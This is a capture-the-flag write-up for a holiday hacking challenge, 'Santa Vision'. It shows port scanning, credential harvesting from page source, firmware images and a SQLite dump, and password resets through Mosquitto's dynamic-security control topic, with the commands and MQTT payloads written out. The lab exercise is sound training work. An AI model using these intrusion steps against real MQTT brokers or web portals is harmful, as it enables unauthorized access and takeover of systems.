





# Santa Vision

Difficulty: :material-star::material-star::material-star::material-star::material-star-outline:

## Objective

!!! question "Task description"

    Alabaster and Wombley have poisoned the Santa Vision feeds! Knock them out to restore everyone back to their regularly scheduled programming.

    - Santa Vision A (:material-star::material-star::material-star-outline::material-star-outline::material-star-outline:): What username logs you into the SantaVision portal?

    - Santa Vision B (:material-star::material-star::material-star::material-star-outline::material-star-outline:): Once logged on, authenticate further without using Wombley's or Alabaster's accounts to see the ```northpolefeeds``` on the monitors. What username worked here?

    - Santa Vision C (:material-star::material-star::material-star::material-star::material-star-outline:): Using the information available to you in the SantaVision platform, subscribe to the ```frostbitfeed``` MQTT topic. Are there any other feeds available? What is the code name for the elves' secret operation?

    - Santa Vision D (:material-star::material-star::material-star::material-star::material-star-outline:): There are too many admins. Demote Wombley and Alabaster with a single MQTT message to correct the ```northpolefeeds``` feed. What type of contraption do you see Santa on?

??? quote "Ribb Bonbowford"

    Hi, Ribb Bonbowford here, ready to guide you through the SantaVision dilemma!

    The Santa Broadcast Network (SBN) has been hijacked by Wombley's goons—they're using it to spread propaganda and recruit elves! And Alabaster joined in out of necessity. Quite the predicament, isn’t it?

    To access this challenge, use this terminal to access your own instance of the SantaVision infrastructure.

    Once it's done baking, you'll see an {==IP address that you'll need to scan for listening services==}.

    Our target is the technology behind the SBN. We need make a {==key change to its configuration==}.

    We’ve got to {==remove their ability to use their admin privileges==}. This is a delicate maneuver—are you ready?

    We need to {==change the application so that multiple administrators are not permitted==}. A misstep could cause major issues, so {==precision is key==}.

    Once that’s done, positive, cooperative images will return to the broadcast. The holiday spirit must prevail!

    This means connecting to the network and pinpointing the right accounts. Don’t worry, we'll get through this.

    Let’s ensure the broadcast promotes unity among the elves. They deserve to see the season’s spirit, don't you think?

    Remember, it’s about cooperation and togetherness. Let's restore that and bring back the holiday cheer. Best of luck!

    The first step to unraveling this mess is gaining access to the SantaVision portal. You'll {==need the right credentials to slip through the front door==}—what username will get you in?

## Hints

??? tip "Misplaced Credentials (Santa Vision A)"

    See if any {==credentials you find==} allow you to subscribe to any MQTT feeds.

??? tip "Filesystem Analysis (Santa Vision A)"

    [jefferson](https://github.com/onekey-sec/jefferson/) is great for analyzing JFFS2 file systems.

??? tip "Database Pilfering (Santa Vision A)"

    Consider {==checking any database files==} for credentials...

??? tip "Mosquito Mosquitto"

    [Mosquitto](https://mosquitto.org/) is a great client for interacting with MQTT, but their spelling may be suspect. Prefer a GUI? Try [MQTTX](https://mqttx.app/)

## Solution

This challenge uses a system that launches a private server instance for you to work with using GateXOR. We simply have to click "Time Travel" for it to start an instance for us. GateXOR itself is not part of the challenge.

=== "A - Silver"

    As we receive an IP, we start out doing some recon activities using nmap. We find an open SSH port (22), a MQTT port (1883), an alternative HTTP port (8000), and a port the purpose is initially unclear for (9001).

    ??? note "Nmap usage"

        ```
        nmap -vv 35.226.210.136 -p-

        ...
        Host is up, received conn-refused (0.13s latency).
        Scanned at 2024-12-02 20:27:55 CET for 405s
        Not shown: 65522 closed tcp ports (conn-refused)
        PORT     STATE    SERVICE      REASON
        22/tcp   open     ssh          syn-ack
        25/tcp   filtered smtp         no-response
        135/tcp  filtered msrpc        no-response
        136/tcp  filtered profile      no-response
        137/tcp  filtered netbios-ns   no-response
        138/tcp  filtered netbios-dgm  no-response
        139/tcp  filtered netbios-ssn  no-response
        427/tcp  filtered svrloc       no-response
        445/tcp  filtered microsoft-ds no-response
        1883/tcp open     mqtt         syn-ack
        5355/tcp filtered llmnr        no-response
        8000/tcp open     http-alt     syn-ack
        9001/tcp open     tor-orport   syn-ack

        Read data files from: /usr/bin/../share/nmap
        Nmap done: 1 IP address (1 host up) scanned in 405.45 seconds
        ```

    The http-alt port shows us a web application:

    
    /// caption
    Santa Vision web application.
    ///

    On the bottom we see ```(topic 'sitestatus' available.)```, indicating one of the MQTT topics we can subscribe to. For this challenge we opted for [MQTTX](https://mqttx.app/). We will first need credentials to connect to the server.

    We find credentials in the source code of the web application login page:

    ```</div> <!-- mqtt: elfanon:elfanon -->```

    These can be used to connect to both the MQTT server and login to the web application.

    !!! success "Answer"

        The answer is ```elfanon```.

=== "A - Gold"

    Now that we have some credentials, let's start exploring the MQTT feed:

    
    /// caption
    The MQTTX client connected to the MQTT server and subscribed to the 'sitestatus' feed.
    ///

    One of the messages is interesting as it seems to point to a file we could try to download:

    ```File downloaded: /static/sv-application-2024-SuperTopSecret-9265193/applicationDefault.bin```

    Let's move on to the web application and login using the credentials:

    
    /// caption
    Santa Vision feed monitor.
    ///

    We download that .bin file and check the file system. It appears to be the filesystem mentioned in the hints:

    ```
    file applicationDefault.bin

    applicationDefault.bin: Linux jffs2 filesystem data little endian
    ```

    We can unpack this to get some source code of the web application using the [jefferson](https://github.com/onekey-sec/jefferson/) tool:

    ```
    jefferson applicationDefault.bin -d sans_jffs2
    ```

    In the filesystem we see a bunch of Python and HTML files. In /app/src/accounts/views.py we see this link to an .sqlite file:

    ```
    @accounts_bp.route("/sv2024DB-Santa/SantasTopSecretDB-2024-Z.sqlite", methods=["GET"])
    ```

    We download this file and find the answer:

    ```
    sqlite3 SantasTopSecretDB-2024-Z.sqlite

    SQLite version 3.38.5 2022-05-06 15:25:27
    Enter ".help" for usage hints.

    sqlite> .tables
    alembic_version  users

    sqlite> SELECT * FROM users;
    1|santaSiteAdmin|S4n+4sr3411yC00Lp455wd|2024-01-23 06:05:29.466071|1
    ```

    !!! success "Answer"

        The answer is ```santaSiteAdmin```.

=== "B - Silver"

    There are more credentials to be found in the source code. In ```/app/src/core/views.py``` we find the following:

    ```
    #Publish Messages to Broker to Create Player Broker Clients
    mqttPublish.multiple(CreatePlayerClients,hostname="localhost",port=1883,auth={'username':"SantaBrokerAdmin", 'password':"8r0k3R4d1mp455wD"})
    ```

    We can authenticate to the MQTT server with these credentials in MQTTX.

    It was mentioned that Eclipse Mosquitto was used. [This](https://github.com/eclipse-mosquitto/mosquitto/blob/master/plugins/dynamic-security/README.md) page describes the security topics available in the server. We can subscribe to them using topic ```$CONTROL/#```, with ```#``` being the wildcard symbol in MQTT.

    The page shares how we can change a password. We want to change the password of ```elfmonitor``` as this is the only account no related to Wombley or Alabaster when clicking the "List Available Clients" button on the web application:

    ```Available clients: 'elfmonitor', 'WomblyC', 'AlabasterS'```

    We submit the following command to the security topic to see all available clients:

    ``` json
    {"commands": [{"command": "listClients"}]}

    {"responses":[{"command":"listClients","data":{"totalCount":11,"clients":["AlabasterS","AlabasterS-viewer","SantaBrokerAdmin","WomblyC","WomblyC-viewer","elfanon","elfmonitor","elfmonitor-viewer","santaMonitor","santashelper2024","santashelper2024-viewer"]}}]}
    ```

    We want to change the password of ```elfmonitor-viewer``` as this is the account for the web application:

    ``` json
    {
        "commands":[
            {
                "command": "setClientPassword",
                "username": "elfmonitor-viewer",
                "password": "password"
            }
        ]
    }
    ```

    This then allows us to connect to the ```northpolefeeds``` as ```elfmonitor``` with password ```password```. Since it works, we know that this account is the answer.

    !!! success "Answer"

        The answer is ```elfmonitor```.

=== "B - Gold"

    We use the credentials we found in "A - Gold" to login to the web application. If we look at the response headers in DevTools when loading the page on the ```/auth``` endpoint we see the following:

    ```
    brkrpswd: playerSantaHelperPass8274054555
    brkrtopic: northpolefeeds
    brkruser: santashelper2024
    ```

    We can then use the following settings to power on the monitors (the password seems to be dynamic):

    ```
    Connect as: santashelper2024
    Password: playerSantaHelperPass8274054555
    Camera Feed Server: YOUR_IP
    Camera Feed Port: 9001
    ```

    
    /// caption
    Subscribed to the ```northpolefeeds``` topic, providing us a view of various camera feeds.
    ///

    !!! success "Answer"

        The answer is ```santashelper2024```.

=== "C - Silver"

    Going back to MQTTX, we use the credentials for SantaBrokerAdmin found in "B - Silver" to authenticate to the server and subscribe to more topics. MQTT has a wildcard feature where you can subscribe to all topics that don't start with a ```$``` (internal topics) using ```#```. We get access to the following feeds:

    ```
    sitestatus
    northpolefeed
    frostbitfeed
    santafeed
    ```

    In the santafeed we find the name of the secret operation:

    ```Sixteen elves launched operation: Idemcerybu```

    !!! success "Answer"

        The answer is ```Idemcerybu```.

=== "C - Gold"

    The answer for "C - Silver" is quite random and not a real word, and therefore suspicious. We have another look at it in CyberChef. By applying ```ROT13``` with an amount of ```10``` we get a real word.

    !!! success "Answer"

        The answer is ```Snowmobile```.

=== "D - Silver"

    We connect to the ```northpolefeeds``` topic in the web application using the ```elfmonitor``` account we changed the password for in "B - Silver". We can then use the DevTools to publish messages to MQTT topics (we could use MQTTX as well but somehow this does not work to complete this challenge).

    On the ```santafeed``` we see the following message come by:

    ```singleAdminMode=false```

    We want to change that to ```true```. Submit the following in the DevTools console, based on the logic we see in ```mqttJS.js```:

    ``` js
    var topic = "santafeed"
    var msg = "singleAdminMode=true"
    message = new Paho.MQTT.Message(msg)
    message.destinationName=topic
    mqtt.send(message)
    ```

    The camera feeds will then change and display Santa:

    
    /// caption
    Santa using a new type of contraption.
    ///

    !!! success "Answer"

        The answer is ```pogo stick```.

=== "D - Gold"

    We follow the same logic as for "D - Silver", however this time connected as ```santashelper2024``` using what we learned in "B - Gold".

    
    /// caption
    Santa has gotton onto some more high-end.
    ///

    !!! success "Answer"

        The answer is ```hover craft```.

## Response

??? quote "Ribb Bonbowford"

    The first step to unraveling this mess is gaining access to the SantaVision portal. You'll need the right credentials to slip through the front door—what username will get you in?

    Great work! You've taken the first step—nicely done. You're on the silver path and off to a strong start!

    Impressive! You dug deeper and uncovered something hidden—very strategic work. You're well on your way to gold!

    You've gained access, but there’s still much more to uncover. Patience and persistence will guide you—silver or gold, you're making progress!

    Excellent progress! You've moved us closer to understanding this network—keep it up on the silver path!

    (Gold hint) Look beyond the surface. Headers and subtle changes might just open new doors. Pay close attention to everything as you log in.

    That’s the kind of attention to detail we need! You've uncovered a hidden path—solid gold effort!

    You're doing fantastic! The northpolefeeds are now in your sights. Silver or gold, you're pushing forward with great momentum!

    Wonderful job! You've uncovered a critical piece of the puzzle—well on track with the silver approach!

    (Gold hint) Sometimes the answers are in the quiet moments. Pay attention to every feed and signal—you may find what you're looking for hidden deep in the streams.

    You're almost there! The operation’s code is unlocked, but the final challenge is waiting. Silver or gold, you're close to victory!

    It’s time to take back control of the Santa Broadcast Network. There really shouldn't be multiple administrators—send the right message, and Santa’s true spirit will return. What’s Santa test-driving this season?

    Excellent! You've successfully removed the propaganda and restored the true spirit of the season. A solid silver finish—well done!

    (Gold hint) Think about the kind of ride Santa would take in a world filled with innovation. His vehicle of choice might surprise you—pay attention to the futuristic details.

    Phenomenal! You've figured it out—Santa’s on a new ride. You've earned your gold badge with this one!

    Mission accomplished! The airwaves are restored, and the message is one of unity and teamwork. Whether silver or gold, you've done an incredible job!
